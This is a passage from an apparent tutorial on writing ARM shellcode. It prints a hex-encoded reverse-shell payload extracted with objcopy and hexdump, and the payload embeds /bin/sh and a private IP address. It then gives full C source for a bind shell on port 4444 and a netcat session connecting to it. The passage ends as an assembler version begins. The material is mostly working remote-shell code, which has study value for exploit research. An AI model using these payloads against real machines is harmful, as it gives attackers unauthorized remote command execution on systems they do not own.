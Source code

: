     $ objcopy -O binary reverse-shell.o reverse-shell.bin

    $ hexdump -v -e '"\\\x" 1/1 "%02x"' reverse-shell.bin ; echo
    \x01\x10\x8f\xe2\x11\xff\x2f\xe1\x0e\xa0\x52\x40\x42\x70\xc2\x73\x02\x20\x01\x21\xc8\x27\x51\x37\x01\xdf\x04\x1c\x20\x1c\x09\xa1\x10\x22\x02\x37\x01\xdf\x20\x1c\x49\x40\x3f\x27\x01\xdf\x20\x1c\x01\x21\x01\xdf\x20\x1c\x02\x21\x01\xdf\x04\xa0\x49\x40\x52\x40\x0b\x27\x01\xdf\x02\xff\x11\x5c\xc0\xa8\x0a\x0c\x2f\x62\x69\x6e\x2f\x73\x68\x41


The **bind-shell** example is longer, but does not involve anything new.

Here is the C version

    #include <unistd.h>
    #include <sys/types.h>
    #include <sys/socket.h>
    #include <netinet/in.h>

    int main()
    {
        struct sockaddr_in sa;

        sa.sin_family = AF_INET;
        sa.sin_port = htons(4444);
        sa.sin_addr.s_addr = htonl(INADDR_ANY);

        int ssock = socket(PF_INET, SOCK_STREAM, 0);

        bind(ssock, (struct sockaddr*) &sa, sizeof(sa));

        listen(ssock, 1);

        int csock = accept(ssock, NULL, NULL);

        dup2(csock, 0);
        dup2(csock, 1);
        dup2(csock, 2);

        execve("/bin/sh", NULL, NULL);

        return 0;
    }

Build and run

    target:$ gcc bindshell.c -o bindshell
    target:$ ./bindshell

Connect from a remote client using netcat as a client. The target ARM machine is at 192.168.10.221.

    remote:$ nc 192.168.10.221 4444
    remote:$ uname -a
    remote:$ Linux wandq-2 4.19.12-jumpnow #1 SMP Sat Dec 22 09:14:15 UTC 2018 armv7l armv7l armv7l GNU/Linux
    remote:$ exit

Setting the IP address to **INADDR_ANY** means **0.0.0.0** or listen on every interface.

Here is an assembler version of the same program

    .text
    .global _start
